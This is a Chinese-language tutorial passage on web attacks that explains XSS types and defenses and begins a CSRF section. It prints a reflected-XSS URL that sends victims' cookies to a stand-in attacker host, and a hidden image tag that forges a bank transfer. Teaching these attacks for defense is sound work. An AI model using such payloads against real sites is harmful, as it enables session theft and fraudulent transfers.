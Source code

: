 XSS 攻击主要分为三类：

1. 反射型 XSS：恶意脚本通过 URL 参数传递，当用户点击含有恶意链接的网站或邮件时，攻击者的脚本随请求发送到服务器。攻击者可以构造一个恶意链接，将包含恶意脚本的关键词作为 URL 参数传递：

   ```php
   https://example.com/search?search=<script>document.location='https://attacker.com/steal?cookie='+encodeURIComponent(document.cookie);</script>
   ```

   当受害者点击这个恶意链接时，恶意脚本会作为参数发送到服务器，然后服务器将脚本嵌入到响应页面中。最后，当受害者浏览器加载页面时，恶意脚本被执行。在这个例子中，恶意脚本将受害者的 Cookie 信息发送到攻击者控制的网站。

2. 存储型 XSS：恶意脚本被存储在服务器上，当受害者访问包含恶意脚本的页面时，脚本被加载并执行。比如，黑客写下一篇含有恶意代码的博客文章，所有访问该博客文章的用户都会在他们的浏览器中执行这段恶意的代码，就会把恶意的脚本保存到服务端。

3. DOM 型 XSS：这类攻击不涉及服务器，而是在客户端通过操纵 DOM（文档对象模型）实现。攻击者在 URL 参数或其他输入途径中注入恶意脚本，然后通过客户端 JavaScript 代码将脚本插入到 DOM 中并执行。

XSS 攻击可能导致以下危害：

- 窃取用户敏感信息（如 Cookie、会话令牌等）
- 模拟用户行为
- 利用受害者的身份执行恶意操作
- 向受害者展示虚假信息

为了防止 XSS 攻击，可以采取以下措施：

1. 输入验证：对用户输入进行严格的验证，限制允许的字符集和格式。

2. 输出编码：在将用户输入插入到 HTML 页面中之前，对其进行适当的编码，以防止恶意脚本被解释执行。例如，将尖括号 `<` 和 `>` 转换为 HTML 实体 `&lt;` 和 `&gt;`。

3. 使用内容安全策略（CSP）：CSP 是一种安全特性，可以限制浏览器加载和执行外部资源（如脚本、样式表等）。通过配置 CSP，可以限制脚本来源、禁止内联脚本执行等，从而降低 XSS 攻击的风险。

4. 使用 HttpOnly Cookie：将敏感信息（如会话令牌）存储在 HttpOnly Cookie 中，这样 JavaScript 无法访问这些 Cookie，即使发生 XSS 攻击，攻击者也无法窃取这些敏感信息。

5. 保持软件更新：及时更新 Web 应用程序及其依赖库，以修复可能存在的安全漏

## 跨站请求伪造攻击（CSRF攻击）

跨站请求伪造（Cross-Site Request Forgery，简称 CSRF）是一种网络安全漏洞，攻击者利用受害者的登录状态，在受害者不知情的情况下伪造请求，让受害者执行攻击者指定的操作。这种攻击方式通常利用用户在其他网站的登录状态，以及浏览器自动发送 Cookie 的特性。

以下是一个简单的 CSRF 攻击示例。假设我们有一个银行网站，用户在登录后可以进行转账操作。转账请求可能如下：

```
https://bank.example.com/transfer?to=account&amount=100
```

在这里，`to` 参数表示收款人账户，`amount` 参数表示转账金额。正常情况下，用户登录银行网站后，通过填写表单发起转账请求。

攻击者可以构造一个恶意网站或电子邮件，包含一个自动发起转账请求的图像标签：

```html
<img src="https://bank.example.com/transfer?to=attacker_account&amount=1000" width="0" height="0" />
```

当受害者访问恶意网站或查看恶意邮件时，浏览器会自动加载图像，从而发起转账请求。如果受害者同时处于银行网站的登录状态，由于浏览器会自动发送 Cookie，转账请求会被银行网站视为合法操作并执行。

为了防止 CSRF 攻击，可以采取以下措施：
